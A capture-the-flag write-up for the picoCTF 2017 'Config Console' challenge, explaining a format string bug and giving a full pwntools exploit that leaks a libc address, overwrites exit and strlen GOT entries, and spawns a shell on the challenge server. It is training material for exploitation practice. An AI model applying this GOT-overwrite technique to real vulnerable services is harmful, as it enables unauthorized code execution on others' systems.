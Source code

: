 # Config Console
#### Writeup by hgarrereyn
* **Binary Exploitation**
* *125 points*
* Description: In order to configure the login messsage for all the users on the system, you've been given access to a configuration console. See if you can get a shell on shell2017.picoctf.com:26325. console Source

# Solution

This program was vulnerable to a format string attack. The following is from the `set_exit_message` function:

```c
printf("Exit message set!\n");
printf(message);

append_command('e', message);
exit(0);
```

In order to get the program to allow multiple format strings, I overwrote `exit@GOT` with the address for the `loop` function so that we will have more opportunities to use our attack. The message buffer is stored on the stack so this part isn't difficult.

Now, we have to figure out how to call `system`.

I leaked a libc address via `%2$lx` and was able to calculate the offset to `system` by running the binary on the webshell in `gdb`.

Then it is relatively simple to do multiple writes and overwrite `strlen@GOT` with the address to `system`. Once this is completed, we can call the `set_prompt` function which calls `strlen` for us on the buffer object:

```c
void set_prompt(char *prompt) {
    if (!prompt) {
        printf("No prompt chosen\n");
        exit(1);
    }
    if (strlen(prompt) > 10) {
        printf("Prompt too long\n");
        exit(1);
    }
    printf("Login prompt set to: %10s\n", prompt);

    append_command('p', prompt);
    exit(0);
}
```

If we send `p sh` the program will call `set_prompt("sh")` and we will have shell.

# Script

[**exploitConfigConsole.py**]()

```python
# By Harrison Green <hgarrereyn>

from pwn import *
import re

# Returns a string that writes up to two bytes to a specific memory address
# via a format string attack
def w(addr_raw, byte, one_byte):
	addr = str(hex(addr_raw))[2:]
	print(str(addr) + ' > ' + str(byte))
	val = str(int(byte,16)).zfill(4)
	addrStr = ""
	for i in range(0,len(addr),2):
		addrStr += chr(int(addr[i:i+2],16))

	s = "e %" + val + "x%16$h" + ("hn" if one_byte else "na") + "a" + addrStr[::-1] + (chr(0) * 5)
	return s

EXIT_GOT = 0x601258
STRLEN_GOT = 0x601210

# Connect
sock = remote('shell2017.picoctf.com', 26325)

# Overwrite EXIT_GOT with the address for loop() so the program loops instead
# of exiting
sock.send('e %2493x%16$hnaa\x58\x12\x60\x00\x00\x00\x00\x00\n')

# Fetch reference address
sock.send('e <%2$lx>\n')

# Parse reference address
resp = sock.recvuntil('>')
print('[' + resp + ']')
addr = int(re.search(r'<([a-f0-9]*)>', resp).group(1), 16)
print('Found address: ' + str(hex(addr)))

# Calculate system address
sys_addr = addr - 3564304
print('System should be at: ' + str(hex(sys_addr)))


# Prepare multistep format string attack
sys = str(hex(sys_addr))[2:]
sy = []

for i in range(0,len(sys),2):
	sy.append(str(hex(int(sys[i:i+2],16)))[2:])

sy = sy[::-1]

# Overwrite strlen with system
for i in range(0,len(sy)):
	sock.send(w(STRLEN_GOT+i, sy[i], True) + '\n')
	sock.recvuntil('Config')

# Get shell by calling system('sh')
sock.send('p sh\n')

# We've got shell
sock.interactive()
```
